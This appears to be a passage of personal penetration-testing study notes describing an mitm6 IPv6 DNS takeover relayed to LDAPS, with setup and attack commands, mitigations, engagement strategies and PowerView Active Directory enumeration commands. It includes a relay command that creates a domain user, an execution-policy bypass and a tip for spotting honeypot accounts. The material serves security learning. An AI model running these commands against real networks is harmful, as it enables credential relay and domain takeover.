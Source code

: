 - from GitHub clone **[mitm6](https://github.com/fox-it/mitm6)**
- cd into your new folder: `pip3 install .` will install the requirements for us

### Attack:

- start mitm6: `mitm6 -d domain.local` let it run
- we also need to setup a relay attack: `netlmrelayx.py -6 -t ldaps://<domain contorller's IP> -wh fakewpad.domaincontoller.local -l lootme`
- **6** is for IPv6 IPs, **ldaps** attack via LDAP Securte, **l** for loot, create a loot file used to store information mitm6 dumps out on target
- IPv6 is sending out: who's got my DNS? it sends it out in about every 30 minutes, mitm6 is trying to relay credentials and dump out everything it can into the ***lootme*** file we set up for it
- when an admin logs in, mitm6 tries to relay the DNS through IPv6 targeting ldap and creates a new user for us
- outdside the created ***loot*** there's a file something like ***aclpwn-date.restore*** that restores everything as it was before the attack
- additional resource through these articles: **[The best of both worlds](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)** and **[Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)**

### Mitigation:

- IPv6 poisoning abuses the fact that Windows queries for IPv6 addresses even on an IPv4-only environments.
- If you don't use IPv6 the safest way is to block DHCPv6 traffic.
- If wpad is not in use, disable it.
- Relaying LDAP and LDAPS can only be mitigated by enabling both LDAP singing and channel binding.
- Consider Administrative users to Protected users group or marking them as ***Account is sensitive*** and can not be delegated, which will prevent any impersonation of that user via delegation.

### Strategies

- begin the day with man in the middle attack or Repsonder (***mitm6*** or ***Responder.py***)
- run scans to generate traffic
- if scans are taking too long, look for websites in scope (http_version)
- look for default credentials on web logins (Printers, Jenkins, etc.)
- **think outside the box**

## Post compromise enumeration

### Domain enumeration with PowerView

- get PowerView from this G**[ithub link](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)**
- bring PowerView over to target Windows machine
- first run PowerShell from terminal: `powershell -ep bypass` this bypasses the execution policy, not for security, it stops us from accidentally executing a script, so we need to bypass it
- `. .\PowerView.ps1` to initiate it
- `Get-NetDomain` information about the Domain Controller, if the system has multiple controllers then run `Get NetDomainController`
- `Get-DomainPolicy` to see all the different policies of the Domain
- `(Get-DomainPolicy)."system access"` this will show more info on the ***system access policy*** like password policy, etc.
- `Get-NetUser` information on the users (dirty output)
- `Get-NetUser | select cn` information on users (cleaner)
- `Get-NetUser | select samaccountname` pulling down SAM account names
- `Get-NetUser | select description` same but for description
- `Get-UserProperty` showing all the properties a user might have
- `Get-UserProperty -Properties pwdlastset` when was a user's password last set
- `Get-UserProperty -Properties logoncount` **a good way to ID honeypot accounts** shows how many times a user logged in. If you see an account where a user never logged in, that might be a honeypot account. They just letting it sit there for you to try to hunt it down
- `Get-UserProperty -Properties badpwdcount` if you see too many bad passwords here that account might have had been under attack